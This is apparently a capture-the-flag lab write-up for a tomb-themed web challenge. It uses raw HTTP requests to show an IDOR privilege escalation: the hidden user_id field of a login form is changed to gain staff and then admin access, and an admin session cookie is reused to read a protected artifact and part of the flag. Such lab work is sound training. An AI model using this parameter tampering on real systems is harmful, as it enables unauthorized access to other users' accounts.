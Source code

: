 You stand at the threshold of ancient knowledge, where the secrets of the pharaohs await.

The digital archives of recently discovered Egyptian tombs have been carefully cataloged by the Ministry of Egyptian Antiquities.

Note 1: Your browser may display a security warning due to the lab's SSL certificate. This is expected and does not indicate any real security risk.

Tools Needed: Burp Suite or equivalent

![](Pasted%20image%2020250502104240.png)


![](Pasted%20image%2020250502104334.png)

Also found this in the html
```html   
<div class="login-form">
    <h2>Explorer Authentication</h2>
    <form method="POST" action="/login">
        <div class="form-group">
            <input type="text" id="username" name="username" placeholder="Username" required>
        </div>
        <div class="form-group">
            <input type="password" id="password" name="password" placeholder="Password" required>
        </div>
        <!-- Hidden field for the IDOR vulnerability -->
        <input type="hidden" id="user_id" name="user_id" value="">
        <button type="submit" class="btn">Enter the Tomb</button>
    </form>
    <p class="hint" style="font-size: 18px;">Your login details are: username: explorer, password: tutankhamun</p>
</div>
```

explorer:tutankhamun


![](Pasted%20image%2020250502104423.png)![](Pasted%20image%2020250502104521.png)

![](Pasted%20image%2020250502104540.png)

```http
POST /login HTTP/1.1
Host: 64.225.103.251:5000
Content-Length: 48
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Origin: https://64.225.103.251:5000
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://64.225.103.251:5000/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive

username=explorer&password=tutankhamun&user_id=2
```


![](Pasted%20image%2020250502105657.png)
Level 2 Clearance: Access to staff-only artifacts and research notes.


```http
POST /login HTTP/1.1
Host: 64.225.103.251:5000
Content-Length: 48
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Origin: https://64.225.103.251:5000
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://64.225.103.251:5000/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive

username=explorer&password=tutankhamun&user_id=3
```

![](Pasted%20image%2020250502105908.png)


```http
GET /artifact/a7f39e1cb8d542b6c9184b8374fe36a1 HTTP/1.1
Host: 64.225.103.251:5000
Cookie: session=eyJjbGVhcmFuY2VfbGV2ZWwiOjMsInJvbGUiOiJhZG1pbiIsInVzZXJfaWQiOjMsInVzZXJuYW1lIjoiZGlyZWN0b3IifQ.aBSJHg.GI6oA6T0Ls1bc4wmgK4sDZ-_0w4
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
```

![](Pasted%20image%2020250502110004.png)

```Second half of the secret: _r3v34ls_th3_truth}```
Level 3 clearance or higher.